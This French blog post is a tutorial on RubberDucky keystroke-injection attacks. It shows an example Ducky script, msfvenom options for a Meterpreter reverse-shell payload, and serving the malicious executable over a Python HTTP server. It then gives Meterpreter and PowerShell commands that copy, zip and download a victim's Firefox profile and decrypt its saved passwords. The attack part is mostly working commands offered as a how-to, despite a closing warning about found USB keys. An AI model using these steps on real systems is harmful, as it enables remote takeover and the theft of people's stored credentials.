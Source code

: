 +++
date = "2020-03-23T10:27:00+00:00"
draft = false
tags = ['securité']
title = "RubberDucky"
author = "claw"
+++

## RubberDucky {#rubberducky}


### Fonctionnement


Il ressemble à une clef usb d'apparence anodine mais il s'agit en réalité d'un clavier scripté capable de taper plus de 1000mots par minute.
Il contient une carte mémoire qui contient notre script et marche très bien sur tout OS même à jour.

![](/img/sec/ducky.png)

### Objectifs

- désactiver les antivirus |
- configurer un proxy |
- démarrer un reverse shell |
- insertion de certificat d'autorité |
- démarrer des scripts powershell |
- tels qu'un ransomware |


Exemple de script RubberDucky:

```text
DELAY 700                        // Attendre 700 ms
ESCAPE                           // Tapper Echap
DELAY 100                        // Attendre 100ms
CONTROL ESCAPE                   // Ouvrir le menu Démarer
DELAY 100
STRING Windows Security          // Tapper "Windows Security"
DELAY 200
...
```

### Compilation

![](/img/sec/comp.png)

Le compilateur est fournit en .jar c'est du java compilé et packagé:

- `-i` l'input
- `-l` l'output (doit toujours être inject.bin)
- le plus important `-l` pour le langage du clavier


### Reverse shell

![](/img/sec/msfv.png)

Un reverse shell est un programme qui permet d'obtenir un accès distant pour exécuter des commandes.
Le but est de l'exécuter sur la machine de la victime pour qu'il se connecte a un shell qu'on a mit en écoute de connections sur un serveur.

On utilise Msfvenom pour créer le payload et Metasploit pour le serveur Meterpreter (c'est sur celui ci que la victime va se connecter:
- `-a`: l'architecture CPU
- `--platform`: la plateforme (windows, android, nix...)
- `-p`: Le paylaod, dans ce cas meterpreter reverse_tcp
- `LHOST`: l'ip du serveur meterpreter
- `LPORT`: le port du server meterpreter
- `-e`: l'encoding
- `-f`: le format
- `>` /tmp/mad/666.exe: la destination

### Distribution

```bash
cd /tmp/mad && python -m http.server
# Sous ubuntu, debian... il faut utiliser python3 -m http.server
# car python = python2 sous ArchLinux python = python3
```

Une fois prêt on utilise un petit serveur http pour que la victime puisse télécharger notre exe malveillante.

![](/img/sec/msf.png)


### Demo

[![](/img/sec/demoloosedoz.png)](https://yourlabs.io/oss/security/raw/master/assets/ducky-windoz.mp4)

[![](/img/sec/revshell.png)](https://yourlabs.io/oss/security/raw/master/assets/msf-reverseshell.mp4)

(clické sur les images pour voir les videos)

#### Conclusion:

Ne ramassez pas les clefs usb que vous trouvez dans la rue

---

## Reverse shell

### Usages

- Vol de mots de passe firefox
- Keylogger
- Screen capture
- Downloader et uploader des fichiers
- Implémentation d'un ransomeware
- Reconnaissance et mouvement transversaux dans le réseau
- ...


### Vol de mots de passe Firefox

```powershell
meterpreter > shell
> powershell
> cd /users/<user> #(utilisez whoami pr le savoir)
> copy-item /users/33768/AppData/Roaming/Mozilla/Firefox/Profiles/*.default-release -destination /windows/temp/mad.default-release -recurse
> Compress-Archive -Path /windows/temp/mad.default-release -DestinationPath /windows/temp/mad.default-release.zip
> exit
> exit
meterpreter > Download /windows/temp/mad.default-release.zip /tmp
```

- [1] Lancer cmd)
- [2] Lancer powershell)
- [3] Copie des fichiers .default-release de firefox
- [4] Compression dans fichiers dans une archive zip
- [5-6] On exit 2 fois pour revenir au prompt `meterpreter >`
- [7] Exifltration de l'archive zip


### Extraction

Dans un autre terminal, on unzip et place les fichier dans le répertoire ~/.mozila/firefox

```bash
$ unzip mad.default-release.zip
$ sudo cp -r mad.default-release /home/<you>/.mozilla/firefox
$ sudo chown -R ${USER}. /home/<you>/.mozilla/firefox/mad.default-release
```

### Configuration

Par la suite on édite `~/.mozilla/firefox/profiles.ini avec le nouveau profile`

```text
[Profile2]
Name=default-release
IsRelative=1
Path=mad.default-release
```

### Déchiffrement

On utilise un outil appelé "[firefox-decrypt](https://github.com/Unode/firefox_decrypt/)":

```bash
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python firefox_decrypt.py
```


### Resultat

![](/img/sec/password.png)


- [Partie 2: Ransomware](/posts/2020-03-24-windows_ransomware/)
- [Partie 3: SSL mitm](/posts/2020-03-24-ssl_mitm/)
